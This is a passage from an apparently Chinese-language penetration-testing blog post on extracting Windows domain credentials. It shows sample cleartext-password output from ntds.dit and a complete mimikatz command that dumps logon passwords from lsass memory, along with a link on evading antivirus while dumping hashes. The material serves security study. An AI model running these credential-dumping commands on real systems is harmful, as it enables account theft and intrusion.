 ```
………………………………………………………………………………………………………………………………
[*] ClearText password from ntds.dit 
domain.com\username:CLEARTEXT:123456!QAZ
```
#### lsass进程中凭证的获取
1、目标上直接使用mimikatz  
```
C:\>mimikatz.exe "privilege::debug" "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" "exit" >> log.txt
```
2、dump lsass进程内存本地获取凭证  
参见   [绕过杀软导出域内用户hash和明文密码](https://pythonpig.github.io/2018/12/13/绕过杀软导出域内用户hash和明文密码/)  

### 参考
* [Mechanics of User Identification and Authentication.pdf](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/Windows用户认证机制/Mechanics%20of%20User%20Identification%20and%20Authentication.pdf)
* [Dumping Clear-Text Credentials](https://pentestlab.blog/tag/lsa/)
* [Windows LSA secrets](https://www.passcape.com/index.php?section=docsys&cmd=details&id=23 )  
* [Cached and Stored Credentials Technical Overview](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/hh994565(v%3Dws.11))
* [supplementalCredentials](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-samr/0705f888-62e1-4a4c-bac0-b4d427f396f8)  
* [Primary:CLEARTEXT Property](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-samr/e348e08f-1c19-42bb-b1a9-687843059414)  
* [A question about AD password storage and encryption](https://social.technet.microsoft.com/Forums/windowsserver/en-US/924019ab-8497-4fb7-977f-26f184723980/a-question-about-ad-password-storage-and-encryption?forum=winserverDS)

